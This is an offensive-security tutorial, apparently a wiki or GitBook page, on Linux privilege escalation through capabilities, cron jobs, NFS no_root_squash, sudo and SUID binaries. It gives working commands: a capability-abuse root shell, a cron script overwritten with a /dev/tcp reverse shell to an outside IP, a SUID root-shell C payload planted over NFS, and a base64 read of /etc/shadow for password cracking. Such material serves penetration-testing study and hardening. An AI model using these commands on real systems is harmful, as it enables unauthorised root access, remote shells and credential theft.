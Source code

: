 # Linux Privilege Escalation Techniques

## Automated Tools

* **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
* **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
* **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

## Capabilities

Capabilities are somewhat like SUID but more granular. A SUID bit can set a binary to have privileged access to everywhere whereas a binary with a capability set may have privileged access to just one part of the kernel (such as the ability to open raw sockets).

WIth this in mind it may be possible to perform privilege escalation by abusing a capability on a binary.

To view the capabilities on a system run the following command:

```
getcap -r / 2>/dev/null
```


Looking at the output of capability set binaries above we can compare these with [<mark style="color:red;">GTFOBins</mark>](https://gtfobins.github.io/#+capabilities) to look for privilege escalation opportunities.



As per the above image from GTFOBins we can attempt to abuse the `CAP_SETUID` capability on the `view` binary to spawn a root shell.

```bash
/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Cron Jobs

Cron jobs are tasks which can execute scripts on the system at predetermined times (similar to Windows Task Scheduler).

Under particular circumstances it may be possible to abuse these for privilege escalation. Any user can read the file keeping system-wide Cron jobs under `/etc/cron`.



At the bottom of the image we can see where cron jobs owned by root are executing scripts every minute (represented by a wildcard).

The abuse function for Cron jobs exist where the jobs are executed in the context of the owner or in the case of above, root. If we can modify or replace a script that is called by a Cron job, privilege escalation will be possible.

It is also important to mention the PATH that is defined in `/etc/cron`. For any scripts called by Cron that are not fully defined i.e, in the above example `antivirus.sh` is not a fully defined path, if we was to place a reverse shell file called antivirus.sh anywhere in the defined path `PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin` (Providing we have permission to any of the path) this would then be executed by Cron (as root).

Taking another example form the output the following line is of interest.

```
* * * * *  root /home/karen/backup.sh
```

This job is owned by root and points to a file in the current users home directory. Being as this is in the current users home directory the user has full permission over the file. The file can be overwritten and then when executed will run with our own code as the root user.

```
# clear the contents of the current backup.sh file
echo  > backup.sh

# echo in reverse shell code
echo "#!/bin/bash" > backup.sh
echo "sh -i >& /dev/tcp/10.14.13.184/80 0>&1" >> backup.sh
```

Wait for the job to run and a reverse shell should be caught as root.



## Kernel Exploits

The kernel on an operating system works at a low and facilitates communication and between the hardware and applications. As the kernel requires privileged permissions to function correctly a kernel exploit can often lead to an escalation of privileges.

Generally the process of kernel exploitation from an adversary perspective involves performing enumeration on the target system and depending on the version of the kernel running on the target system, perform an exploit if one is available.

Tools such as [<mark style="color:red;">Linux Exploit Suggester</mark>](https://github.com/mzet-/linux-exploit-suggester) can be used to help identify if the current OS and kernel are vulnerable to any known exploits.

## NFS

By default, NFS shares change the root user to the `nfsnobody` user, an unprivileged user account. In this way, all root-created files are owned by `nfsnobody`, which prevents uploading of programs with the setuid bit set. If `no_root_squash` is used, remote root users are able to change any file on the shared file system and leave trojaned applications for other users to inadvertently execute. [<mark style="color:red;">\[Source\]</mark>](https://access.redhat.com/documentation/en-us/red\_hat\_enterprise\_linux/4/html/security\_guide/s2-server-nfs-noroot)

{% hint style="info" %}
This attack method requires the adversary to already have shell access on the target system.
{% endhint %}

Given the above information we can check from the target system what NFS shares have `no_root_squash` enabled by reading `/etc/exports`.



From above we can see that available NFS shares from within the target system. All shares have `no_root_squash` enabled. We will be using the `/tmp` share as the example going forward.

From the adversary's perspective the NFS shares have been enumerated with `Nmap` and the attacker has discovered the shares are mountable.

```bash
nmap --script nfs-ls,nfs-statfs <IP>
```



On the adversary's attacking system a directory is created from where the target systems `/tmp` directory can be mounted

```bash
mkdir /tmp/1
sudo mount -o rw <IP>:/tmp /tmp/1 
```

From the attackers machine we can see the contents of the target system `/tmp` directory.



Next, a simple C application is created which will spawn a bash shell.

```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
 }
```

{% hint style="info" %}
Other C payloads can be found here: [<mark style="color:red;">BookHackTricks</mark>](https://book.hacktricks.xyz/linux-unix/privilege-escalation/payloads-to-execute#c)<mark style="color:red;">.</mark>
{% endhint %}

The C code can then be compiled locally on the attackers system.

```
gcc -w shell.c -o shell
```

Then the SUID bit can be set on the shell file.

```
sudo chmod +s shell
```

Now compiled and the SUID bit set we should now see the shell file from the perspective of the target systems `/tmp` directory.



Then, executing the shell file locally on the target system should obtain a root shell.



## Sudo

Circumstances can exists where select users are given sudo rights to particular binaries instead of sudo rights for an entire system. In this way it may be possible to abuse the `sudo` function for a binary to spawn a root shell.

GTFOBins is the prime resource for finding the appropriate methods for the binaries.

**GTFOBins:** [https://gtfobins.github.io/](https://gtfobins.github.io)

```
$ sudo -l

User karen may run the following commands on ip-10-10-21-57:
    (ALL) NOPASSWD: /usr/bin/find
$
```

The above code block represents the result of checking `sudo` permissions for the current user with `sudo -l`. As shown in the code block the user karen is able to run the find binary as any user `(ALL)` without specifying a password `(NOPASSWD).`

From the following [<mark style="color:red;">link</mark>](https://gtfobins.github.io/gtfobins/find/) we can see that find can be used to spawn a root shell.



Execution shown below



***

## **SUID**

The SUID bit can be used to execute file and binaries in the context of the file owner. For example, a binary owned by root which has the SUID bit set would indicate another user is able to execute the binary in the context of root (the file owner).

The command below can be used to find binaries and files with the SUID bit set.

```
find / -type f -perm -04000 -ls 2>/dev/null
```



As we can see the from the image above the SUID bit is set on `/usr/bin/base64`. Referring to the GTFOBins link below we can see this can be used for privilege escalation on the base64 binary.

* **GTFOBins SUID:** [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)


As with the example above this can be used to read the shadow file (owned by root) where hashes can then be extracted for password cracking (as an example).

```
/usr/bin/base64 /etc/shadow | base64 --decode
```


